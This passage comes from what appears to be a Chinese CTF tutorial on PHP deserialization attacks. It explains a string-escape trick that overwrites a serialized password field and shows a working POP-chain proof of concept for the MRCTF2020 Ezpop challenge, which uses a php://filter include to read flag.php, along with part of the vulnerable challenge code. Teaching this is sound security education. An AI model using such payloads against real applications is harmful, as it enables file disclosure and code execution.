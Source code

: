 > 序列化的结果：`O:1:"B":3:{s:4:"name";s:9:"index.php";s:2:"id";s:7:"7895645";s:8:"password";s:6:"123456";}`  
> 如果我们要替换掉 password 的值，就得构造一个`"s:"password";s:6:"654321"`, 这里总共有 26 个字符，所以我们要进行逃逸，利用代码的过滤机制将我们传入的参数进行过滤，然后我们在填充一些垃圾数据进去，使得原来的 ID 的字节 = 垃圾数据 + 后面我们控制的属性数据（一定是符合反序列化规则的）。

  其实怎么填充都可以，只要数值刚好符合反序列规则即可。因为我们需要构造这样的字符串`";s:8:"password";s:6:"654321";}`，所以在 $id 上的末尾一定要加上这个，然后前面的添加规则就是，制空的 name 的变量的长度要等于我们填充的垃圾数据。

**在这里插入图片描述：**  
![](https://img-blog.csdnimg.cn/5fc2235177054b4aa8cb88c6ae22e4f0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBATkdDXjIyMzc=,size_20,color_FFFFFF,t_70,g_se,x_16)  
**反序列化结果：**  
![](https://img-blog.csdnimg.cn/1563c435feaf4b75883f9e1f9614c05a.png)  
  最终拿到 flag。其实 flag 的数量和我们构造的 ID 的’7895654‘这些都是可控的，也就是说数量不一定是这么多，这种题，大家可以多多调试就可以逃逸出来了。  
![](https://img-blog.csdnimg.cn/a843f06eb9474bb89084dbc5a39e950c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBATkdDXjIyMzc=,size_20,color_FFFFFF,t_70,g_se,x_16)

### 四、POP 链挖掘

  简单的序列化攻击是因为对魔术方法的自动调用而触发漏洞或则通过字符串逃逸，但如果关键代码不在魔术方法，而是在一个类的普通方法中，则需要观察联系类与函数之间的关系，将其与魔术方法的利用结合起来，这时候就可以利用 pop 链的构造与攻击。  
这里我们直接上第一道题【[MRCTF2020]Ezpop】讲解。  
**POC:**

```
<?php 
class Show{
	public $source;
	public $str;
}
class Test{
	public $p;
}
class Modifier{
	protected $var;
	function __construct(){
		$this->var="php://filter/convert.base64-encode/resource=flag.php";
	}
}
$s = new Show();
$t = new Test();
$r = new Modifier();

$s->source = $s;
$s->str = $t;
$t->p = $r;
var_dump(urlencode(serialize($s)));
?>
```

  **下面我们来分析一下，主要就是几个类的相互嵌套和魔法函数触发的条件的观察，一般我的分析是先看获取参数的地方，再看能造成文件包含或则 RCE 的地方，之后再一层一层的分析递推。**

```
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
```
